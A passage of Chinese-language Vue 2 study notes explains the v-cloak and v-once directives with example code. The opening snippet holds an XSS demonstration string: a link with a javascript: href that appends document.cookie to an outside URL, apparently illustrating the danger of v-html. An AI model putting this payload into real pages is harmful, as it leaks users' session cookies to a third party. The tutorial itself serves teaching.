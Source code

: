 ```html
                    name: 'FOund',
                    str: '<h3>404</h3>',
                    str2: '<a href=javaScript:location.href="http://www.baidu.com?"+document.cookie>点我跳转</a>',
                }
            },
        })
    </script>
```

### v-cloak

1. 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性
2. 使用css配合v-cloak可以解决网速慢时页面展示{{xxx}}的问题

```css
        /* 属性选择器，选择所有带[]内属性的标签 */
        [v-cloak] {
            display: none;
        }
```

```html
    <div id="root">
        <h2 v-cloak>{{name}}</h2>
    </div>
    <script>
        Vue.config.productionTip = false;
        new Vue({
            el: '#root',
            data() {
                return {
                    name: 'FOund',
                }
            },
        })
    </script>
```

### v-once

1. `v-once`所在节点在初次动态选然后，就视为动态内容了。
2. 以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

```html
    <div id="root">
        <h2 v-once>初始化的n值:{{n}}</h2>
        <h2>当前的n值:{{n}}</h2>
        <button @click="n++">点我n+1</button>
    </div>
    <script>
        Vue.config.productionTip = false;
        new Vue({
            el: '#root',
            data() {
                return {
                    n: 0
                }
            },
        })
    </script>
```
